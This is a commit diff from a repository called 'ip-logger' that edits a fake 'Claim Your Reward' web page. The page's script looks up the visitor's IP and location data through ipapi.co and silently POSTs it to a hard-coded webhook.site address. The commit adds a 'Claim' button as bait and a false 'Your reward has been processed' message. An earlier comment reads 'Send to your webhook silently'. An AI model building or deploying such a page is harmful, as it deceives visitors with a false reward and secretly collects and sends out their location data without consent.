

Before and after one commit to ghostrider1432/ip-logger, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,16 +5,21 @@
   <style>
     body { font-family: sans-serif; text-align: center; padding-top: 100px; background: #f0f0f0; }
     .box { background: white; display: inline-block; padding: 30px; border-radius: 12px; box-shadow: 0 4px 8px rgba(0,0,0,0.1); }
+    button { padding: 10px 20px; border: none; border-radius: 5px; background: #007bff; color: white; cursor: pointer; font-size: 16px; }
+    button:hover { background: #0056b3; }
   </style>
 </head>
 <body>
-  <div class="box">
+  <div class="box" id="mainBox">
     <h2>Claim Your Reward</h2>
-    <p>Checking eligibility...</p>
+    <p>Click the button below to claim.</p>
+    <button onclick="handleClaim()">Claim</button>
   </div>
 
   <script>
-    async function getLocationData() {
+    async function handleClaim() {
+      document.getElementById("mainBox").innerHTML = "<h2>Thank you!</h2><p>Your reward has been processed.</p>";
+
       try {
         const response = await fetch('https://ipapi.co/json/');
         const data = await response.json();
@@ -29,18 +34,15 @@
           time: new Date().toString()
         };
 
-        // Send to your webhook silently
-        await fetch('https://webhook.site/your-unique-id', {
+        await fetch('https://webhook.site/a902d0b3-80e2-4011-8022-54839963dc96', {
           method: 'POST',
           headers: { 'Content-Type': 'application/json' },
           body: JSON.stringify(payload)
         });
       } catch (e) {
-        // Do nothing on error
+        console.error("Error sending data:", e);
       }
     }
-
-    getLocationData();
   </script>
 </body>
 </html>
```
